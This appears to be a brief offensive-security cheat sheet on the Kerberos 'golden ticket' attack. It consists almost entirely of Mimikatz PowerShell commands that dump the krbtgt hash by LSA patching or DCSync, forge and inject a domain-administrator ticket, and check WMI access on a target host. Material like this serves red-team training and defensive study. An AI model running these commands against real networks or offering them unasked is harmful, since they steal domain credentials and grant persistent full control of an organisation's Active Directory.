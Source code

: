# Golden Ticket

**Dump hashes - Get the krbtgt hash**

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```

**Make golden ticket**

Use /ticket instead of /ptt to save the ticket to file instead of loading in current powershell process To get the SID use `Get-DomainSID` from powerview

```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /krbtgt:<hash> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

**Use the DCSync feature for getting krbtgt hash. Execute with DA privileges**

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```

**Check WMI Permission**

```
Get-wmiobject -Class win32_operatingsystem -ComputerName <computername>
```
